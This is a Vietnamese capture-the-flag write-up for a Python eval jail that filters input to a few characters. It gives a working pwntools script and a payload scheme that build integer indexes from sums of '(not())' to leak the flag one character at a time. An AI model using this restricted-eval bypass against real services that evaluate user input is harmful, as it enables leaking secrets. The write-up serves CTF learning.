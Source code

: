 Nếu như lệnh đó chạy được thì sẽ trả ra output eval của lệnh đó nếu không thì sẽ trả ra cipher. Ở đây challenge còn filter chỉ cho `Only [a-z] and []()~><*+` và eval trong builtins như thế này `eval(encoded, {"__builtins__": None}, {"flag": flag})`. Có một cái còn hi vọng là `flag` cũng được đưa vào builtins nên mình có thể leak từng char như sau `flag[0]`, `flag[1]`, ...

```python
from pwn import remote
import string

HOST, PORT = 'misc-b6c94dd8.p1.securinets.tn', 7000

p = remote(HOST, PORT)

flag = ""

def get_encoded(line: str):

    try:
        for j in range(3, 100):
            p.recvuntil(b'> ')
            p.sendline(line.encode())
            echo = p.recvline().decode().strip()
            encoded = p.recvline().decode().strip()
            m = dict(zip(encoded, string.ascii_lowercase))
            pay = m['f'] + m['l'] + m['a'] + m['g']
            pay += '['
            pay += "(((not())+(not()))**((not())+(not())+(not())+(not())))+".replace('not',m['n']+m['o']+m['t'])
            pay += "+".join(['(not())'.replace('not',m['n']+m['o']+m['t'])]*j)
            pay += ']'
            print(pay)
            # print(len(pay))
            for i in range(1000):
                p.recvuntil(b'> ')
                p.sendline(pay.encode())
                echo = p.recvline().decode().strip()
                encoded = p.recvline().decode().strip()
                if ('*' not in encoded):
                    global flag
                    flag += encoded
                    print(flag)
                    break
    finally:
        p.close()

if __name__ == '__main__':
    get_encoded(string.ascii_lowercase)
```

Tóm tắt thì nó sẽ gen ra một payload như thế này `flag[(not())+(not())]` thì là `flag[2]` và nó sẽ leak kí tự thứ 3 của flag. 

Phần `pay += "(((not())+(not()))**((not())+(not())+(not())+(not())))+".replace('not',m['n']+m['o']+m['t'])` sẽ tự điều chỉnh tuỳ theo phần nào của flag đã được leak.
